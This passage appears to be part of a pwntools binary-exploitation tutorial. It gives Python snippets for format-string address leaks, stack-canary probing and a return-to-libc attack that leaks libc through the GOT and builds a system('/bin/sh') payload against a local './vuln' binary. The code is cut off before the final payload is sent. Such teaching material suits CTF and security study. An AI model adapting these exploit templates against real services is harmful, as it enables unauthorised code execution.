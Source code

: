 ```python
# Progress indicator
p = log.progress("Brute forcing")
for i in range(100):
    p.status(f"Trying {i}")
    time.sleep(0.1)
p.success("Found!")
```

## Common Patterns and Techniques

### Information Leaks

```python
def leak_address(p, format_offset):
    """Leak address using format string"""
    payload = f"%{format_offset}$lx".encode()
    p.sendline(payload)
    response = p.recvline()
    leaked = int(response.strip(), 16)
    return leaked

def leak_canary(p):
    """Leak stack canary"""
    # Send payload that triggers canary check
    payload = b'A' * 264  # Overwrite canary
    p.sendline(payload)
    response = p.recvall()
    
    if b"stack smashing detected" in response:
        log.info("Canary detected")
        # Use format string to leak canary
        return leak_canary_format_string(p)
```

### Return-to-libc

```python
def ret2libc_exploit():
    elf = ELF('./vuln')
    libc = ELF('./libc.so.6')
    p = process('./vuln')
    
    # Leak libc address
    payload1 = flat([
        b'A' * 72,
        elf.plt['puts'],
        elf.symbols['main'],
        elf.got['puts']
    ])
    
    p.sendline(payload1)
    leaked_puts = u64(p.recvline()[:6].ljust(8, b'\x00'))
    libc.address = leaked_puts - libc.symbols['puts']
    
    log.info(f"Libc base: {hex(libc.address)}")
    
    # Execute system("/bin/sh")
    payload2 = flat([
        b'A' * 72,
        libc.symbols['system'],
        libc.search(b'/bin/sh').__next__()
    ])
    
```